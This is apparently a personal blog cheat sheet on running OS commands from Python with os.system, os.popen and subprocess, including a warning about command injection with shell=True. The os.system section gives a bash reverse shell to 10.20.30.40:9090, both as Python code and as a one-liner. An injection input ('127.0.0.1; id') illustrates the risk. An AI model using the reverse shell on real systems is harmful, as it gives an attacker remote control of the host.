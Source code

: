 ```yaml
---
layout: post
title: OS Commands with Python
date: 2023-09-01 14:46 -0400
categories: [Python]
tags: [cheat sheet, python, boilerplate, os, command injection]
---
```


First of all, I'm going to open this entire post by saying that this is for _prototyping only_. If you can use a python function or python module that has been built and tested properly rather than use python to call another binary or generally execute some sort of shell script code, you should _always_ do that. However, if you are just using python to get something done that you **don't intend to move into a production environment**, then read on I guess. I wanted to write this so I had a means of looking back on my work and know all the "gotchas" rather than have to look this up all the time.

Again, I really have to stress that calling binaries or shell commands from within a python script runs you the risk of potentially being vulnerable to a command injection attack. Sure there are proper ways to do it, but you may not want to run that risk, especially if you intend for others to use your code or to automate a task that has no (or little) sense of accountability.

Just food for thought.

## Anyway, OS Commands with Python

In the event that you need to execute some arbitrary OS command from your python script, there are several ways to go about doing it. You can use `os.system()`, `os.popen()`, `subprocess.run()`, and `subprocess.Popen()`, among others that aren't worth mentioning.

### os Module

The `os` module is useful if you have access to a python command environment and want to execute something without caring of the output, most likely because you are kicking back a reverse shell. This one is a particular favorite of mine:

#### os.system

```python
import os
c = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.20.30.40/9090 0>&1'"
os.system(c)
```

Or a little one liner:

```terminal
$ python -c "import os;os.system('/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.20.30.40/9090 0>&1\"')"
```

#### os.popen

This is similar to the `system` function, but instead of echoing the output to STDOUT of the calling shell, this will read the output as if it were a file handler (more specifically `os._wrap_close`, but it has access to an IO stream so `read()` will work with it), so you should treat it as such in python.

```python
import os

c = "ping -c 1 50.60.70.80"
out = os.popen(c)

print(out.read())
```

Also to be fancy:

```python
import os

with os.popen("ping -c 1 50.60.70.80") as o:
    out = o.read()

print(out)
```

## The Recommended Way: subprocess

I won't bother getting into some of the legacy methods, but as of this writing the "preferred" method is to use `subprocess.run()`.

```python
import subprocess

# Note it's better to separate arguments into separate objects. This is the lazy way:
cmd = "ping -c 1 50.60.70.80".split(" ")

# But this is probably better in case you have files with spaces in their names or something:
cmd = ["ping", "-c", "1", "50.60.70.80"]

out = subprocess.run(cmd, capture_output=True)

print(out.stdout.decode("utf-8"))
```
> Note, adding `capture_output=True` will suppress output from being displayed the instant that `subprocess.run()` is executed. Instead, you can access STDOUT and STDERR from the new object created in the `out` variable.
{: .prompt-info}

### shell=True

If you specify `shell=True`, `subprocess.run()` will execute the code from inside of a new shell, and shell functions and methods will be availble to the command, such as pipes and output redirection. Unfortunately this comes with an even greater risk, as you can pass a full string to this command and it will simply hand it off to bash (or whatever shell you have configured) and it will execute from within the context of a shell. This makes the command _a lot more command-injectable!_ Especially if you are creating a string to pass to this function by way of the result of user input. Take the code:

```python
import subprocess
import sys

ip = sys.argv[1]
cmd = f"ping -c 1 {ip}"

out = subprocess.run(cmd, shell=True)

print(out.stdout.decode("utf-8"))
```

By providing `"127.0.0.1; id"` as the `sys.argv[1]` argument, you can execute whatever you want after the `;`. If you choose the default and set `shell=False`, then not only will it require that all commands and arguments be individual items in a list, but it will not honor things like a semicolon, double ampersand, or even sub-shell commands (like `$(id)`) to execute. It will throw an error that the name or service is not known.

### "Proper" Way of Handling Errors

This is some boilerplate code for a function that will execute the `cat` command and display a file if it exists. If it doesn't exist, it will throw an error. This may not be the most elegant, but it will get the job done. Also I'm sure some of the more prolific python devs out there will probably argue there is a better way of handling this, but this will get the job done:

```python
import subprocess

def os_read_file(thisFile: str) -> str: 
    cmd = ["/bin/cat", thisFile]
    out = subprocess.run(cmd, capture_output=True)

    if out.returncode > 0:
        raise Exception(out.stderr.decode("utf-8"))
    
    return out.stdout.decode("utf-8")


if __name__ == "__main__":
    try:
        print(os_read_file("/etc/does/not/exist"))
    except Exception as e:
        print(e)
```